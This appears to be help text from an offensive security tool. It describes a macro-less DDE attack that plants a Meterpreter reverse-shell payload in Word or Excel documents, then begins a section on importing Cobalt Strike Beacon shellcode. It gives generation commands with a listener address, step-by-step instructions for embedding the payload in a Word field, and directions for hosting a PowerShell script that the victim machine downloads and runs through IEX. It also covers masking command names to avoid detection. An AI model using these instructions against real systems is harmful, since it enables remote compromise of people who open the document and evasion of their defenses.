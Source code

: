  This attack vector will generate the DDEAUTO formulate to place into Word or Excel. The COM object 
 DDEInitilize and DDEExecute allow for formulas to be created directly within Office which causes the
 ability to gain remote code execution without the need of macros. This attack was documented and full
 instructions can be found at:
 
 https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/
 
 In order to use this attack, run the following examples:
 
 python unicorn.py <payload> <lhost> <lport> dde
 python unicorn.py windows/meterpreter/reverse_https 192.168.5.5 443 dde
 
 Once generated, a powershell_attack.txt will be generated which contains the Office code, and the
 unicorn.rc file which is the listener component which can be called by msfconsole -r unicorn.rc to
 handle the listener for the payload. In addition a download.ps1 will be exported as well (explained
 in the latter section).
 
 In order to apply the payload, as an example (from sensepost article):
 
 1. Open Word
 2. Insert tab -> Quick Parts -> Field
 3. Choose = (Formula) and click ok.
 4. Once the field is inserted, you should now see "!Unexpected End of Formula"
 5. Right-click the Field, choose "Toggle Field Codes"
 6. Paste in the code from Unicorn
 7. Save the Word document.
 
 Once the office document is opened, you should receive a shell through powershell injection. Note
 that DDE is limited on char size and we need to use Invoke-Expression (IEX) as the method to download.
 
 The DDE attack will attempt to download download.ps1 which is our powershell injection attack since
 we are limited to size restrictions. You will need to move the download.ps1 to a location that is
 accessible by the victim machine. This means that you need to host the download.ps1 in an Apache2
 directory that it has access to.
 
 You may notice that some of the commands use "{ QUOTE" these are ways of masking specific commands
 which is documented here: http://staaldraad.github.io/2017/10/23/msword-field-codes/. In this case
 we are changing WindowsPowerShell, powershell.exe, and IEX to avoid detection. Also check out the URL
 as it has some great methods for not calling DDE at all.
 
 [*******************************************************************************************************]
     
 
 [*******************************************************************************************************]
 
                 -----Import Cobalt Strike Beacon----
 
 This method will import direct Cobalt Strike Beacon shellcode directly from Cobalt Strike.
 
 Within Cobalt Strike, export the Cobalt Strike "CS" (C#) export and save it to a file. For example, call 
 the file, cobalt_strike_file.cs. 
 
